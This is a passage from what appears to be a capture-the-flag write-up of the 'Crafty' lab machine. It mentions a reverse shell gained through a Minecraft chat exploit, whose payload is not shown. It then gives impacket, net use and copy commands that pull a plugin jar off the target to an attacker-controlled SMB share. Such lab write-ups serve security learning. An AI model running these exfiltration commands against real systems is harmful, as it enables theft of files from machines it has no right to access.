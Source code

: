 After we fill in this string in the chat we will get a connection on our exploit.


![exploit connect](/assets/img/Crafty/Crafty_02.png)

Then a few moments later we'll get a reverse shell connection

![Reverse shell as svc_minecraft](/assets/img/Crafty/Crafty_03.png)

## Privesc

So now that we have access to the machine i started doing some enumeration on the machine itself. After not finding anything interesting with winpeas i looked around for some custom binaries or services. Then in the found the **playercounter-1.0-SNAPSHOT.jar** file in the plugins directory of the server. So to exfiltrate this file to our machine i set up a smb share on our machine using impacket


```bash
impacket-smbserver exfil ./ -smb2support -username "calico" -password "calico"
```

Then on the target side we need to mount the share onto the machine with the net command. After doing this we can move this file over to our machine

```powershell
net use Z: \\10.10.16.61\exfil /user:calico calico
copy .\playercounter-1.0-SNAPSHOT.jar Z:\playercounter-1.0-SNAPSHOT.jar
```

Next up we need to analyze this jar file i used jd-gui for this.
